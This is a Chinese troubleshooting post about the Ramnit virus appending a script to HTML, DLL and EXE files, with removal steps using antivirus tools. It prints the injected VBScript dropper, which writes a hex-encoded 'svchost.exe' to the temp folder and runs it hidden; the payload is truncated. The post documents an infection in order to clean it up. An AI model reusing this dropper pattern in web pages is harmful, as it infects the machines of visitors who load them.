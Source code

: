 # HTML文件末尾被自动添加VBS的脚本
`【系统环境】windows 8`  
`【操作内容】html文件`  
`【解决方案验证次数】1次`  
## <i class="fa fa-question-circle"></i> 出现问题
html文件末尾被自动添加VBS脚本，开始还以为是编辑器添加的，后来在今日头条上看到介绍才知道是病毒。用360扫描，1W多个文件都被感染，包括DLL、HTML、EXE。打开迅雷的时候360就会报毒，原因是DLL文件被感染了。
```VBScript
<SCRIPT Language=VBScript><!--
DropFileName = "svchost.exe"
WriteData = "4D5A900003000000040000......................................."
Set FSO = CreateObject("Scripting.FileSystemObject")
DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
If FSO.FileExists(DropPath)=False Then
Set FileObj = FSO.CreateTextFile(DropPath, True)
For i = 1 To Len(WriteData) Step 2
FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
Next
FileObj.Close
End If
Set WSHshell = CreateObject("WScript.Shell")
WSHshell.Run DropPath, 0
</SCRIPT>
```
## <i class="fa fa-bullseye"></i> 根本原因
【病毒名称】Virus.Win32.Ramnit.X  
【作用】感染HTML、DLL、EXE文件，在末尾添加一段VBS脚本，一旦运行就会交叉感染。仅破坏了文件，没有上传东西，也不会被盗号（已经几个月了我才发现），但具体的邪恶作用还未知，在网上也查不到相关研究内容。
## <i class="fa fa-check-circle"></i> 解决方法
使用<font color="#8baa4a">赛门铁克的专杀工具</font>的专杀工具清除病毒：   [官网下载](https://www.symantec.com/security-center/writeup/2015-022415-4725-99) |   [百度网盘下载](https://pan.baidu.com/s/1mhE0Zmo)（密码wrmn）  
使用<font color="#8baa4a">360</font>全盘防感染模式查杀

